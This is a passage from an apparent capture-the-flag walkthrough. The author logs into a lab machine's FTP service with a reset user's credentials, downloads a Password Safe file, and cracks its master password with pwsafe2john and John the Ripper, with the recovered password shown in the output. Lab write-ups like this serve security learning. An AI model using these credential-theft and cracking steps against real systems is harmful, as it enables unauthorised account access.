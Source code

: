 The command confirms that the password for the `Benjamin` user has been successfully changed.  

For `Benjamin`, there is no outbound object control.  

When accessing FTP using Benjamin's credentials, I found a `.psafe3` file.  
Download this file for further analysis.

```bash                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.11.42                                                  
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:kali): Benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||53838|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************************************|   
```

The `Backup.psafe3` file is password-protected, so we use `John` to crack the password.

```bash
┌──(kali㉿kali)-[~]
└─$ pwsafe Backup.psafe3
                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ pwsafe2john Backup.psafe3 > hashpwsafe.txt
                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ cat hashpwsafe.txt 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050

┌──(kali㉿kali)-[~]
└─$ john  --show hashpwsafe.txt 

Backu:tekieromucho

1 password hash cracked, 0 left
```

Here, we have three usernames and their passwords.
